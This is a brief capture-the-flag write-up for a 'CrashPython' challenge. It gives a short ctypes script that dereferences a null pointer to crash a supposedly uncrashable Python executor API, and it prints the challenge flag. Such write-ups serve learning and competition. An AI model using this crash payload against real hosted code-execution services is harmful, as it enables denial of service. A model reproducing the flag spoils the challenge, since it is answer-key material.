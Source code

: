 # CTF Challenge Writeup: CrashPython

## Challenge Information

**- Name:** Crash Python
**- Category:** Misc
**- Points:** 50
**- Description:** I am hosting an uncrashable Python executor API. Crash it to get the flag.
**- Files:** [dist.zip](files/crashpython-dist.zip)

![CrashPython-1.png](img/CrashPython-1.png)

## Challenge Analysis

The files contain a environment that is not supposed to crash, our job is to force a crash!

## Solution

### Step 1: Analyze the files and list our restrictions/constrains

We see some words that are actively blacklisted:

![CrashPython-2.png](img/CrashPython-2.png)

### Step 2: Search for flag prerequisites

Inside the 'app.py' file we find the following check:

![CrashPython-3.png](img/CrashPython-3.png)

### Step 3: Write a script

Now it's up to me to write a script that exits with status 139, gives a 'Segmentation fault' and creates status 11:
```python
import ctypes

def segmentation_fault():
    invalid_ptr = ctypes.POINTER(ctypes.c_int)()
    ctypes.memset(invalid_ptr, 0, ctypes.sizeof(ctypes.c_int))

segmentation_fault()
```

Done!

## Flag

`grey{pyth0n-cv3-2021-3177_0r_n0t?_cd924ee8df15912dd55c718685517d24}`

## Conclusion

Good challenge to do when you're stuck on a hard one!

## Writeup Author

- Twitter: [@Cyber8RU7U5](https://twitter.com/Cyber8RU7U5)
- GitHub: [Cyber8RU7U5](https://github.com/Cyber8RU7U5)

